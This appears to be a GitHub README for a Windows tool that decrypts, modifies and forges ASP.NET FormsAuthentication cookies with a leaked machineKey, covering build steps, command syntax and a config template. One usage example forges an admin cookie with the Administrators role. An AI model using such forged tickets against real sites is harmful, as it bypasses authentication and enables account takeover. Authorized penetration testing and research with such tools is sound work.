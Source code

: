# FormsTicketTool

> decrypt / encrypt / create **ASP.NET FormsAuthentication** tickets using leaked machineKeys.

## Overview

A small Windows tool for decrypt/encrypt/create cookie "sessions" (`FormsAuthenticationTicket `) when owning the machineKey.

---

## Build

**Requirements**

- Visual Studio (or `csc.exe` / `dotnet build`)
- .NET Framework 4.8
- Add reference: `System.Web`

**Steps**

1. Clone the repo:
   ```bash
   git clone https://github.com/4xura/FormsTicketTool.git
   cd FormsTicketTool
   ```

2. Open `FormsTicketTool.sln` in Visual Studio or compile manually:

   ```
   csc /r:System.Web.dll FormsTicketTool.cs
   ```

3. Copy `App.config.template` → `App.config`. Insert your target machineKey:

4. Build → `FormsTicketTool.exe` will appear in `/bin/Debug` or `/bin/Release`.

---

## Usage

```
FormsTicketTool.exe decrypt <COOKIE> [--json] [--utc]
FormsTicketTool.exe encrypt <EXISTING_COOKIE> <NEW_USER> <USERDATA> <MINUTES_VALID>
FormsTicketTool.exe create  <USERNAME> <USERDATA> <MINUTES_VALID> [isPersistent]
FormsTicketTool.exe gen-config <decryptionKey> <validationKey> [compatibilityMode] [outfile]
FormsTicketTool.exe info
```

Prints:

- default: TTL and local timestamps
- `--json` (optional): machine-friendly JSON
- `--utc`  (optional): show timestamps in UTC instead of local

Examples:

```sh
# decrypt a cookie string
FormsTicketTool.exe decrypt 8CE190CA4584C2E0...

# clone cookie into admin with Administrators role
FormsTicketTool.exe encrypt 8CE190CA4584C2E0... admin "Administrators" 120
```

------

## Config Example

`App.config.template` (rename to `App.config` for actual run):

```xml
<configuration>
  <system.web>
    <machineKey
      decryption="AES"
      decryptionKey="B26C371E..."
      validation="HMACSHA256"
      validationKey="EBF9076B..."
      compatibilityMode="Framework45" />
  </system.web>
</configuration>
```

------

## Disclaimer

This project is for educational and authorized research only.